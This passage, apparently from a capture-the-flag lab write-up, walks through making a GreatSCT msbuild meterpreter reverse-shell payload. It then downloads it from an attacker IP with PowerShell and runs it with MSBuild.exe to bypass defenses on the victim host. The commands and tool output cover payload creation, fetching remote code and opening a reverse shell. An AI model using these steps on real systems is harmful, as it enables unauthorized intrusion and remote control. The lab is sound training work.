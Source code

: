 ```
DOMAIN          	X       	Optional: Required internal domain
EXPIRE_PAYLOAD  	X       	Optional: Payloads expire after "Y" days
HOSTNAME        	X       	Optional: Required system hostname
INJECT_METHOD   	Virtual 	Virtual or Heap
LHOST           	10.10.14.15	IP of the Metasploit handler
LPORT           	443     	Port of the Metasploit handler
PROCESSORS      	X       	Optional: Minimum number of processors
SLEEP           	X       	Optional: Sleep "Y" seconds, check if accelerated
TIMEZONE        	X       	Optional: Check to validate not in UTC
USERNAME        	X       	Optional: The required user account

 Available Commands:

	back        	Go back
	exit        	Completely exit GreatSCT
	generate    	Generate the payload
	options     	Show the shellcode's options
	set         	Set shellcode option

[msbuild/meterpreter/rev_tcp>>] 

```

Once I've told GreatSCT to generate the payload with these options, it provides us with a metasploit RC file to make things easier, and also an XML file so that `msbuild.exe` on the remote machine can compile our meterpreter shell for us!

```
===============================================================================
                                   Great Scott!
===============================================================================
      [Web]: https://github.com/GreatSCT/GreatSCT | [Twitter]: @ConsciousHacker
===============================================================================

 [*] Language: msbuild
 [*] Payload Module: msbuild/meterpreter/rev_tcp
 [*] MSBuild compiles for  us, so you just get xml :)
 [*] Source code written to: /usr/share/greatsct-output/source/revshell.xml
 [*] Metasploit RC file written to: /usr/share/greatsct-output/handlers/revshell.rc

Please press enter to continue >:
```

Now I can spin up the Metasploit framework using the provided RC file. This will automatically start a `multi/handler` configured to catch our reverse shell. `msfconsole -r /usr/share/greatsct-output/handlers/revshell.rc`

All that's left to do is get our xml file across to the victim host, compile it and execute!

1. From our netcat cmd shell as Batman, download the XML file: `Powershell Invoke-WebReqquest -URI http://10.10.14.9/revshell.xml -OutFile revshell.xml`
2. From the same shell, compile it using the **32 bit** msbuild.exe compiler: `C:\windows\microsoft.net\framework\v4.0.30319\MSBuild.exe revshell.xml`
3. And over in our `multi/handler` we should have a meterpreter session!


[arkham]: PS C:\Users\Batman\Documents> whoami
